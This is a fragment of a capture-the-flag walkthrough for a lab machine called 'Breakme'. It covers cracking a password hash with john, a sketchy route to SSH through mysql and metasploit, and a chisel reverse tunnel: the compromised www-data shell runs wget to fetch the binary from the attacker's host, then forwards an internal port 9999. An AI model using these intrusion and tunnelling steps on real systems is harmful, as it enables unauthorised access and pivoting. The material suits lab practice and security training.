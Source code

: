 User:
admin

Password:
12345678

Copy the hash string in full, like: admin:*HASH

crack password:
```bash
john hash.txt
```

### 6. Gain ssh access through mysql (If possible):

install mysql
verify login
use metasploit

Access ssh:
ssh name@http://10.10.212.180
password


### 7. Access Tools App (not related to Wordpress):

john has a php server running on port 9999:
```bash
ps aux | grep -i john
```

So we need to find a way to make tunnling to see what is that server running.
We can use tool called chisel.
https://github.com/jpillora/chisel/releases

download on local machine
```bash
chisel_1.10.1_linux_amd64.gz 

gunzip chisel_1.10.1_linux_amd64.gz

mv chisel_1.10.1_linux_amd64 chisel

chmod +x chisel

./chisel server --reverse --port 8001
```

Open a python server in my local machine new bash
```bash
python3 -m http.server 8000
```


Shell:
```bash
cd /tmp

www-data@Breakme:/tmp$ 
wget http://10.10.241.80:8000/chisel

chmod +x chisel

./chisel client 10.10.241.80:8001  R:9999:localhost:9999
```
